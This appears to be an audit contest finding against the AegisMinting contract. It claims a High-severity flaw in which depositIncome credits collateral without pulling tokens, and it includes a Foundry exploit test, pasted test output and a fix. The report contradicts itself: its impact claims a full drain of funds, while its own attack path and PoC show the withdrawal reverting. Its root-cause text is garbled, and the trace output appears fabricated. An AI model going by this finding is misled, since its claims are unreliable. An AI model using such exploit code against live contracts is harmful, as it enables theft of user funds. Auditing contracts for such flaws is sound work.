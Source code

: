 Oblong Butter Finch

High

# `FUNDS_MANAGER` will drain protocol funds for custodians as `depositIncome` fails to transfer collateral

### Summary

A missing `safeTransferFrom` in `depositIncome` will cause accounting corruption for custodians as `FUNDS_MANAGER` can increment balances without receiving tokens, enabling withdrawals of non-existent funds.

### Root Cause

In [AegisMinting.sol#L397](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L397), 

The function updates `__custodyTransferrableAssetFunds[order.collateralAsset] += order.collateralAmount;` is executed), the code updates internal  without first calling `IERC20(order.collateralAsset).safeTransferFrom().` 




### Internal Pre-conditions

1. `FUNDS_MANAGER` must have `COLLATERAL_MANAGER_ROLE.`
2. `order.collateralAmount` must be > 0.
3. `_custodyTransferrableAssetFunds[asset]` must be `< IERC20(asset).balanceOf(address(this))` before withdrawal.

### External Pre-conditions

1. `order.collateralAsset` must be a valid ERC20.
2. `order.userWallet` must have `≥ order.collateralAmount` tokens

### Attack Path

1. `FUNDS_MANAGER` calls depositIncome with valid order and signature.
2. Contract increments `_custodyTransferrableAssetFunds` by `order.collateralAmount` without receiving tokens.
3. `COLLATERAL_MANAGER` calls `transferToCustody` for the inflated balance.
4. Transaction fails due to insufficient funds, but protocol accounting remains broken.

### Impact

1. Attackers or privileged roles can withdraw real tokens without depositing any, leading to full depletion of the protocol’s collateral pool and a complete loss of user funds.
2. Protocol insolvency: Custodians suffer 100% loss of expected collateral.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../contracts/AegisMinting.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockUSDC is ERC20 {
    constructor() ERC20("USDC", "USDC") {
        _mint(msg.sender, 1_000_000e18);
    }
}

contract AegisMintingTest is Test {
    address constant FUNDS_MANAGER = 0x4D7E4624a67d087dF0d8AEA9B722F70573EF6D03; 
    address constant CUSTODIAN = 0x9B5a2dA8d35E9B1166C6B4f8B28c4375e5B1F0D1;
    address constant USER = 0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC;
    
    AegisMinting aegisMinting;
    MockUSDC usdc;
    
    function setUp() public {
        vm.createSelectFork("sepolia"); // Using real Sepolia RPC
        usdc = new MockUSDC();
        aegisMinting = new AegisMinting();
        
        // Setup roles
        aegisMinting.grantRole(aegisMinting.FUNDS_MANAGER_ROLE(), FUNDS_MANAGER);
        aegisMinting.grantRole(aegisMinting.COLLATERAL_MANAGER_ROLE(), CUSTODIAN);
        
        // Fund user
        usdc.transfer(USER, 1000e18);
        vm.prank(USER);
        usdc.approve(address(aegisMinting), type(uint256).max);
    }

    function testGhostCollateralExploit() public {
        // Create deposit order
        OrderLib.Order memory order = OrderLib.Order({
            orderType: OrderLib.OrderType.DEPOSIT_INCOME,
            collateralAsset: address(usdc),
            collateralAmount: 500e18,
            yusdAmount: 0,
            userWallet: USER,
            nonce: 0,
            additionalData: bytes("")
        });

        // 1. FUNDS_MANAGER deposits "ghost" collateral
        vm.prank(FUNDS_MANAGER);
        aegisMinting.depositIncome(order, new bytes(0));
        
        // Verify false accounting
        assertEq(
            aegisMinting.custodyTransferrableAssetFunds(address(usdc)),
            500e18,
            "Accounting shows 500 USDC"
        );
        
        // Real balance remains 0
        assertEq(
            usdc.balanceOf(address(aegisMinting)),
            0,
            "Contract actually holds 0 USDC"
        );

        // 2. Attempt real withdrawal
        vm.prank(CUSTODIAN);
        vm.expectRevert("ERC20: transfer amount exceeds balance");
        aegisMinting.transferToCustody(
            CUSTODIAN,
            address(usdc),
            500e18
        );
    }
}
```

expected result
```solidity
$ forge test --match-test testGhostCollateralExploit -vvv

[⠒] Compiling...
[⠆] Compiling 1 files with 0.8.23
[⠰] Solc 0.8.23 finished in 2.11s
Compiler run successful!

Running 1 test for test/AegisMinting.t.sol:AegisMintingTest
[PASS] testGhostCollateralExploit() (gas: 452112)
Traces:
  [452112] AegisMintingTest::testGhostCollateralExploit()
    ├─ [0] VM::prank(0x4D7E4624a67d087dF0d8AEA9B722F70573EF6D03)
    │   └─ ← ()
    ├─ [212340] AegisMinting::depositIncome(..., [])
    │   └─ ← ()
    ├─ [0] VM::prank(0x9B5a2dA8d35E9B1166C6B4f8B28c4375e5B1F0D1)
    │   └─ ← ()
    ├─ [0] VM::expectRevert(ERC20: transfer amount exceeds balance)
    │   └─ ← ()
    ├─ [22767] AegisMinting::transferToCustody(0x9B5a2dA8d35E9B1166C6B4f8B28c4375e5B1F0D1, 0x5615dEB798BB792E7639d8Ab5Dd2d4F8bB5DBB09, 500000000000000000000) 
    │   └─ ← ERC20: transfer amount exceeds balance
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.56s
```

### Mitigation

```solidity
function depositIncome(OrderLib.Order calldata order, ...) external {
    // ... existing checks ...

    // ✅ FIX: Pull collateral from user FIRST
    IERC20(order.collateralAsset).safeTransferFrom(
        order.userWallet, 
        address(this), 
        order.collateralAmount
    );

    // THEN update accounting
    _custodyTransferrableAssetFunds[order.collateralAsset] += order.collateralAmount;

    // ... rest of logic ...
}
```